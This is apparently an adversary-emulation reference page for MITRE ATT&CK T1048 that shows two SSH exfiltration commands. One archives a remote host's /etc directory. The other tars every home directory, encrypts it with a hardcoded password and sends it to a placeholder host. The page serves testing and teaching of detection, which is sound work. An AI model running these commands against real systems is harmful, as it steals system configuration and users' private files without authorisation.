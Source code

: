 ﻿## Exfiltration Over Alternative Protocol

MITRE ATT&CK Technique: [T1048](https://attack.mitre.org/wiki/Technique/T1048)

### SSH

Remote to Local:

    ssh target.example.com "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz

Local to Remote:

    tar czpf - /home/* | openssl des3 -salt -pass pass:1234 | ssh foo@example.com 'cat > /home.tar.gz.enc'

